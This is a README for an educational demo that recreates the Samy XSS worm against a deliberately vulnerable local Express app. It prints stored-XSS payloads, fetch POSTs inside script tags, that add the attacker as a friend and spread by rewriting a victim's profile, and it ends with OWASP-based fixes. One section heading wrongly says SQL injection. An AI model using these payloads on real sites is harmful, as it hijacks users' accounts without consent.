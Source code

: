 # XSS Worm

## Setup
**Dependencies**
<ul>
    <li>Python 3</li>
    <li>Node.js</li>
    <li>Express</li>
    <li>sqlite3</li>
</ul>

Install packages by typing `npm install`

**Run Server**<br>
`node app.js`<br>
Then navigate to `localhost:9100` on browser.

**Create Database**<br>
The database is stored as `example.sqlite` in the same directory as `app.js` <br>

`python3 sql_connect.py < create_tables.sql`<br>
Will create Users table with autoincrementing ID, fullname, username, and password columns.<br>

`python3 sql_connect.py < insert_entry.sql`<br>
Will create default user 'John Doe' with username 'asdf' and password 'qwerty'. Can edit this file for more users. <br>

Input for XSS Worm is stored in `exploit.txt`

## What is SQL Injection
From [Wikipedia](https://en.wikipedia.org/wiki/XSS_worm)
> An XSS worm, sometimes referred to as a cross site scripting virus, is a malicious (or sometimes non-malicious) payload, usually written in JavaScript, that breaches browser security to propagate among visitors of a website in the attempt to progressively infect other visitors.

The most famous of these XSS worms is the [Samy Worm](https://samy.pl/myspace/) where a MySpace user named Samy Kamkar forced users to add himself as a friend and claim him to be his 'hero'. The virus also applied to the victim as well, so subsequent views also infected them, resulting in a spread of about 1 million users.

## Proof of Concept

**Normal Login**
![](screenshots/samy_normal.png)
A user is given a profile page detailing their Name, Occupation, Association, and Number of Friends. Here we have Samy (the malicous attacker), and two normal user John and Alice with similar setups. Key thing to note is that each profile URL contains the user's username. <br>

Credentials for each user can be found in `credentials.txt`

**Samy Edit**
![](screenshots/samy_edit.png)
Each user has an option to edit their profile, but Samy here knows the backend doesn't sanitize input properly and has predictable endpoints. So Samy is able to input `<script>` tags for his information and pass in in-line javascript.

**Code to Add a Friend**
`Myspace <script>fetch("/elite/addFriend", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "elite"})})</script>`
Here, we can edit the Association entry to make it such that anybody who views the page will trigger a `POST` request to add him as a friend.

**Code to Also Make Another Profile Add Samy as a Friend**
`Hacker<script>fetch("/edit", { method: "POST", headers: { "Content-Type": "application/json" }, body: JSON.stringify({user: "average", fullname: "John", occupation:"", association: "Myspace <s\cript>fetch(\"/elite/addFriend\", { method: \"POST\", headers: { \"Content-Type\": \"application/json\" }, body: JSON.stringify({user: \"elite\"})})</s\cript>"})})</script>`
Knowing John's username based on the URL, he can make it such that he can also make John's profile add him as well. So we input the following string to our Occupation entry. A more robust exploit can make the username general, but for demo purposes we'll hard-code the user to be infected.  We can verify that John is infected because now his Association is Myspace as well

**Defense Against XSS Worms**<br>
OWASP provides a good prevention cheat sheet [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>

For our purposes, changing the `pug` file such that it doesn't allow for [unescaped string interpolation](https://pugjs.org/language/interpolation.html#string-interpolation-unescaped) and making the urls obscure more information would be enough to prevent an attacker like Samy from exploiting. Those changes are reflected in `routes/fixed_index.js` and `views/fixed_dynamic.pug`. Simply run `node fixed_app.js` to view corrections.

**Notes**
<ul>
    <li>If login page is not updating, clear browser cache</li>
</ul>